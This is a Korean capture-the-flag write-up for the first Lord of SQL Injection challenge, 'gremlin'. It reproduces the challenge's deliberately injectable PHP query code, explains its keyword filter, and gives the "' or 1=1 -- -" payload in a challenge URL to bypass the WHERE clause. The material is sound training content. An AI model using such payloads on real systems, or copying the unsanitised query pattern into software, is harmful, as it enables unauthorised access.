 # Lord of SQL Injection No.1 - gremlin
## 문제 출제 의도 
가장 기초적인 SQL Injection을 통하여 문법을 조작할 수 있는지 확인한다.
## 소스 코드 분석
```php
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```
```php
include "./config.php"; 
login_chk(); 
dbconnect(); 
```
+ config.php 파일을 불러와서 파일에 적용시킨다.
+ login_chk()함수는 로그인을 체크하는 기능을 한다고 추정할 수 있다.
+ dbconnect()함수는 데이터베이스에 연결하는 기능을 한다고 추정할 수 있다.

~~~
if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~");
if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
~~~
+ GET방식으로 pw와 id를 받으며, id나 pw에 `prob`,`_ ` ,`.`, `()`가 들어있으면 문제 풀이에 실패한다. 
### preg_match
~~~
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags [, int $offset ]]] )
~~~
+ preg_match 함수는 문자열에서 정규표현식 매치를 수행한다.
+ 반환값은 매치된 횟수인데 0 아니면 1이다. 처음 매치를 하고 종료하기 때문이다.
## Solution
~~~
$query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
echo "<hr>query : <strong>{$query}</strong><hr><br>";
$result = @mysql_fetch_array(mysql_query($query));
if($result['id']) solve("gremlin");
~~~
+ GET 방식으로 받은 id와 pw가 직접 쿼리문으로 삽입된다.(SQL Injection 가능)
+ 문제 풀이 성공 조건은 데이터 베이스에서 받은 id값에 false값을 제외한 어떠한 값이라도 들어있으면 성공한다.

1. WHERE 조건절 무력화
+ 쿼리 스트링을 붙여준다.
~~~
http://los.eagle-jump.org/gremlin_bbc5af7bed14aa50b84986f2de742f31.php?id=' or 1=1 -- -
~~~
~~~
select id from prob_gremlin where id='' or 1=1 -- - (and pw = '')
이것은 where 조건절을 항상 참으로 만드므로 prob_gremlin 테이블의 모든 id 값을 가져온다. 
